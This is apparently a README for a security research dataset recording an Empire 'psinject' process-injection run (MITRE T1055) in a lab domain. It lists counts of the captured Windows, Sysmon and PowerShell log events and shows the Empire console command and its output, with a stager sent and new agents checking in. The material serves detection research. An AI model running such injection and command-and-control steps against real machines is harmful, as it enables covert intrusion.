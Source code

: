 
# Empire Psinject

An adversary can use Empire psinject to inject Unmanaged PowerShell into any process. This project is a reflective DLL based on Stephen Fewer's method. It imports/runs a .NET assembly into its memory space that supports the running of Powershell code using System.Management.Automation.

## Technique(s) ID

T1055

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_psinject.tar.gz](./empire_psinject.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19151711

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |            2166 |
| Windows PowerShell                       | PowerShell                          | Provider Lifecycle                                     |              16 |
| Windows PowerShell                       | PowerShell                          | Engine Lifecycle                                       |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             240 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |             179 |
| Security                                 | Microsoft-Windows-Security-Auditing | User Account Management                                |             149 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               8 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               8 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               6 |
| Security                                 | Microsoft-Windows-Security-Auditing | File Share                                             |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             293 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             225 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             217 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | CreateRemoteThread detected (rule: CreateRemoteThread) |              88 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              88 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              28 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              23 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |              17 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            2115 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Starting Command                                       |               1 |
| Microsoft-Windows-DNS-Client/Operational | Microsoft-Windows-DNS-Client        | na                                                     |             373 |

## Empire Activity

```
psinject https 8148
```

```
[*] Tasked G6BYHU4F to run TASK_CMD_JOB
[*] Agent G6BYHU4F tasked with task ID 6
[*] Tasked agent G6BYHU4F to run module powershell/management/psinject
(Empire: G6BYHU4F) > Job started: 2AZBLF
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.104
[*] New agent MPB3UHD1 checked in
[+] Initial agent MPB3UHD1 from 10.0.10.104 now active (Slack)
[*] Sending agent (stage 2) to MPB3UHD1 at 10.0.10.104

(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 2MES3XN6 ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         4312   5/0.0    2019-03-19 14:11:49  https           
 G6BYHU4F ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         9156   5/0.0    2019-03-19 14:11:50  https           
 MPB3UHD1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         cmd                8148   5/0.0    2019-03-19 14:11:47  https           


(Empire: agents) >
```